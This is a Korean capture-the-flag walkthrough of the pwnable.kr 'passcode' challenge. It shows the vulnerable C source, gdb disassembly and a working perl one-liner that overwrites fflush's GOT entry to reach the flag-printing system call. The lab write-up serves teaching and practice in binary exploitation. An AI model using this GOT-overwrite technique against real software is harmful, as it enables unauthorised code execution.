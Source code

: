 # [Toddler's Bottle] passcode
passcode에서 제공하는 글을 확인해보자.
```
Mommy told me to make a passcode based login system.
My initial C code was compiled without any error!
Well, there was some compiler warning, but who cares about that?

ssh passcode@pwnable.kr -p2222 (pw:guest)
```
putty를 이용하여 주어진 주소로 접속을 하자.

이번에는 `flag` `passcod` `passcode.c`가 존재하고있다.
```
passcode@ubuntu:~$ ls
flag  passcode  passcode.c
```

그동안 해왔던대로 `passcode.c`를 열어보자.
```
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

그리고 제공된 글에서 컴파일 도중 워닝이 떴다는 것을 언급해주었으므로  
따로 코드를 옮겨와서 컴파일 해준 결과
```
lv0@ubuntu:~$ gcc -o passcode passcode.c
passcode.c: In function ‘login’:
passcode.c:9:17: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
         scanf("%d", passcode1);
                ~^
passcode.c:14:17: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
         scanf("%d", passcode2);
                ~^
```
scanf 사용할때 &를 사용하여 변수의 주소를 불러와야하는데 __코드__ 에서는 변수자체를 입력해서 워닝이 떴음을 알 수 있었다.  
이렇게 변수자체를 입력해주면 변수에 들어있는 값을 주소로 인식을하고 %d로 저장하게된다.

```
(gdb) disass main
Dump of assembler code for function main:
   0x08048665 <+0>:     push   %ebp
   0x08048666 <+1>:     mov    %esp,%ebp
   0x08048668 <+3>:     and    $0xfffffff0,%esp
   0x0804866b <+6>:     sub    $0x10,%esp
   0x0804866e <+9>:     movl   $0x80487f0,(%esp)
   0x08048675 <+16>:    call   0x8048450 <puts@plt>
   0x0804867a <+21>:    call   0x8048609 <welcome>
   0x0804867f <+26>:    call   0x8048564 <login>
   0x08048684 <+31>:    movl   $0x8048818,(%esp)
   0x0804868b <+38>:    call   0x8048450 <puts@plt>
   0x08048690 <+43>:    mov    $0x0,%eax
   0x08048695 <+48>:    leave
   0x08048696 <+49>:    ret
End of assembler dump.
```
main함수를 디스어셈해서 본 결과  
welcome과 login은 서로 같은 ebp값을 갖게 됨을 알 수 있다.

```
(gdb) disass welcome
Dump of assembler code for function welcome:
   0x08048609 <+0>:     push   %ebp
   0x0804860a <+1>:     mov    %esp,%ebp
   0x0804860c <+3>:     sub    $0x88,%esp
   0x08048612 <+9>:     mov    %gs:0x14,%eax
   0x08048618 <+15>:    mov    %eax,-0xc(%ebp)
   0x0804861b <+18>:    xor    %eax,%eax
   0x0804861d <+20>:    mov    $0x80487cb,%eax
   0x08048622 <+25>:    mov    %eax,(%esp)
   0x08048625 <+28>:    call   0x8048420 <printf@plt>
   0x0804862a <+33>:    mov    $0x80487dd,%eax
   0x0804862f <+38>:    lea    -0x70(%ebp),%edx
   0x08048632 <+41>:    mov    %edx,0x4(%esp)
   0x08048636 <+45>:    mov    %eax,(%esp)
   0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x0804863e <+53>:    mov    $0x80487e3,%eax
   0x08048643 <+58>:    lea    -0x70(%ebp),%edx
   0x08048646 <+61>:    mov    %edx,0x4(%esp)
   0x0804864a <+65>:    mov    %eax,(%esp)
   0x0804864d <+68>:    call   0x8048420 <printf@plt>
   0x08048652 <+73>:    mov    -0xc(%ebp),%eax
   0x08048655 <+76>:    xor    %gs:0x14,%eax
   0x0804865c <+83>:    je     0x8048663 <welcome+90>
   0x0804865e <+85>:    call   0x8048440 <__stack_chk_fail@plt>
   0x08048663 <+90>:    leave
   0x08048664 <+91>:    ret

```
welcome함수를 disass해서 본 결과   
scanf의 시작주소가 `-0x70(%ebp)`위치에 존재함을 알 수 있다.
그리고 c코드를 봤을때  
`char name[100];`   
이름은 100바이트 공간을 차지하므로 입력한 이름은 `-0x70(%ebp) ~ -0xc(%ebp)`에 존재한다.
```
(gdb) disass login
Dump of assembler code for function login:
   0x08048564 <+0>:     push   %ebp
   0x08048565 <+1>:     mov    %esp,%ebp
   0x08048567 <+3>:     sub    $0x28,%esp
   0x0804856a <+6>:     mov    $0x8048770,%eax
   0x0804856f <+11>:    mov    %eax,(%esp)
   0x08048572 <+14>:    call   0x8048420 <printf@plt>
   0x08048577 <+19>:    mov    $0x8048783,%eax
   0x0804857c <+24>:    mov    -0x10(%ebp),%edx
   0x0804857f <+27>:    mov    %edx,0x4(%esp)
   0x08048583 <+31>:    mov    %eax,(%esp)
   0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:    mov    0x804a02c,%eax
   0x08048590 <+44>:    mov    %eax,(%esp)
   0x08048593 <+47>:    call   0x8048430 <fflush@plt>
   0x08048598 <+52>:    mov    $0x8048786,%eax
   0x0804859d <+57>:    mov    %eax,(%esp)
   0x080485a0 <+60>:    call   0x8048420 <printf@plt>
   0x080485a5 <+65>:    mov    $0x8048783,%eax
   0x080485aa <+70>:    mov    -0xc(%ebp),%edx
   0x080485ad <+73>:    mov    %edx,0x4(%esp)
   0x080485b1 <+77>:    mov    %eax,(%esp)
   0x080485b4 <+80>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x080485b9 <+85>:    movl   $0x8048799,(%esp)
   0x080485c0 <+92>:    call   0x8048450 <puts@plt>
   0x080485c5 <+97>:    cmpl   $0x528e6,-0x10(%ebp)
   0x080485cc <+104>:   jne    0x80485f1 <login+141>
   0x080485ce <+106>:   cmpl   $0xcc07c9,-0xc(%ebp)
   0x080485d5 <+113>:   jne    0x80485f1 <login+141>
   0x080485d7 <+115>:   movl   $0x80487a5,(%esp)
   0x080485de <+122>:   call   0x8048450 <puts@plt>
   0x080485e3 <+127>:   movl   $0x80487af,(%esp)
   0x080485ea <+134>:   call   0x8048460 <system@plt>
   0x080485ef <+139>:   leave
   0x080485f0 <+140>:   ret
   0x080485f1 <+141>:   movl   $0x80487bd,(%esp)
   0x080485f8 <+148>:   call   0x8048450 <puts@plt>
   0x080485fd <+153>:   movl   $0x0,(%esp)
   0x08048604 <+160>:   call   0x8048480 <exit@plt>
```
그리고 login함수를 disass해본 결과  
scanf는 `-0x10(%ebp)`위치의 값을 인자로 불러오게 되고 fflush로 입력버퍼를 초기화해준다.  
그러나 passcode1은 초기화 전이므로 welcome함수의 name값과 버퍼 공간을 공유하게되고  
이름입력시 마지막 4바이트를 이용하여 passcode1을 변조시킬 수 있다.


여기서는 GOT와 PLT를 알아야하는데, 위에 사용자 정의 함수가 아닌 라이브러리 함수는 뒤에 @plt라고 써있는 걸 볼 수 있다.  
즉, 라이브러리 함수를 호출하면 PLT가 호출되고, GOT로 점프한다.

첫 번째 호출의 경우, GOT에 함수의 주소가 저장되어 있지 않아서 다시 PLT+6으로 돌아가서 dl_resolve를 통해서 함수의 주소를 GOT에 저장하고 함수로 점프한다.  
하지만 그 후로는 이미 함수의 주소가 GOT에 저장되어 있어서 PLT -> GOT -> 함수 이렇게 바로 점프하게 된다.  
그런데 GOT에 다른 주소가 쓰여 있다면, 함수를 실행했을 때, 다른 곳으로 점프하게 된다.  
> 출처 : https://bpsecblog.wordpress.com/2016/03/07/about_got_plt_1/

이것을 이용해보자.
```
(gdb) x/3i 0x8048430
   0x8048430 <fflush@plt>:      jmp    *0x804a004
   0x8048436 <fflush@plt+6>:    push   $0x8
   0x804843b <fflush@plt+11>:   jmp    0x8048410
(gdb) x/x 0x804a004
0x804a004 <fflush@got.plt>:     0x08048436
```
fflush 함수의 got 주소를 확인해보면 `0x804a004`임을 확인 할 수 있으며  
system(“/bin/cat flag”)의 주소는 login+127에서 `0x080485e3`임을 확인 할 수 있다.

그러나 scanf는 %d로 입력받으므로 system(“/bin/cat flag”)의 주소는 10진수로 입력해주어야 한다.
```
passcode@ubuntu:~$ (perl -e 'print "a"x96,"\x04\xa0\x04\x08","134514147"')|./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```
